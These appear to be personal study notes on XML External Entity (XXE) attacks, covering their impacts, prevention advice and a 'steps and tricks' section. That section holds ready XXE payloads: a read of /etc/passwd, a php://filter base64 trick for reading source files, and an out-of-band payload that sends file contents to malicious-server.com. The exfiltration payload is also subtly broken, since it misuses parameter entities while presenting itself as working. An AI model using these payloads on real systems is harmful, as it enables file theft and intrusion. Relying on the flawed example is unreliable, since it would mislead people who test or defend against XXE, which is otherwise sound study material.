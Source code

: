 # what is XXE and what it's  impact 

**XXE (XML External Entity)** is a type of vulnerability that arises when an XML parser processes XML input containing a reference to an external entity. This vulnerability can be exploited by attackers to read local files, perform server-side request forgery (SSRF), execute remote code, or cause denial of service (DoS), depending on the system's configuration and the parser's behavior.   an example 
```
`<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE user [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]> <user> <name>&xxe;</name> <email>john.doe@example.com</email> </user>`
```
### How XXE Works

An XML External Entity attack occurs when an attacker can manipulate an XML input to include a reference to an external entity. 
### Impacts of XXE Vulnerabilities

1. **Sensitive Data Exposure:**
    
    - Attackers can read sensitive files on the server, such as configuration files, system files, or private keys.
2. **Denial of Service (DoS):**
    
    - An attacker can craft XML payloads that cause the parser to consume excessive resources, leading to DoS. For example, using recursive entity expansion (billion laughs attack).
3. **Server-Side Request Forgery (SSRF):**
    
    - The attacker can force the server to make HTTP requests to internal or external systems, potentially accessing services not directly exposed to the internet.
4. **Remote Code Execution (RCE):**
    
    - In rare cases, XXE can be leveraged to execute arbitrary code on the server, depending on the application's environment and configurations.
5. **Port Scanning:**
    
    - Attackers can use XXE to scan internal network ports, helping them map the 
    - internal network.     
### How to Prevent XXE

1. **Disable DTDs in XML Parsers:**
    
    - Disable the ability to process external entities and DTDs in XML parsers. This is often done through parser configuration.
2. **Use Secure Parsers:**
    
    - Use modern libraries and parsers that are configured securely by default.
3. **Input Validation:**
    
    - Validate and sanitize XML input to prevent malicious data from being processed.
4. **Patch and Update:**
    
    - Keep your XML processing libraries up to date to ensure you're protected against known vulnerabilities.
5. **Use Less Complex Data Formats:**
    
    - If possible, avoid using XML in favor of simpler formats like JSON, which are less prone to this type of attack.   

![[Pasted image 20240827214325.png]]
![[Pasted image 20240827214353.png]]
to use parameter   use %before entity name 
if you want to declare a predefined entitiy you need to encode the name of it



# steps and tricks 
when fetching data from PHP file try to use the encoding function like `php://filter/convert.base64-encode/resource=index.php`
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE rss [
    <!ELEMENT title ANY>
    <!ENTITY xxe SYSTEM ".passwd" >
]>
<rss version="1.0" >
    <channel>
     <item>
               <title>&xxe;</title>
      </item>
    </channel>
</rss>
```
if there is RSS check or something 
# a basic code payload to extract file data and send it to a malicious website 

```
<!DOCTYPE root [
  <!-- Define an external entity to read a sensitive file -->
  <!ENTITY % file SYSTEM "file:///etc/passwd">

  <!-- Define a parameter entity that includes the file content -->
  <!ENTITY % fileContent "<![CDATA[%file;]]>">

  <!-- Define another entity that includes the file content as part of a URL -->
  <!ENTITY % data SYSTEM "http://malicious-server.com?fileContent=%fileContent;">
  
  <!-- Use the parameter entity in the XML content -->
  %data;
]>
<root>
  <data>&file;</data>
</root>

```



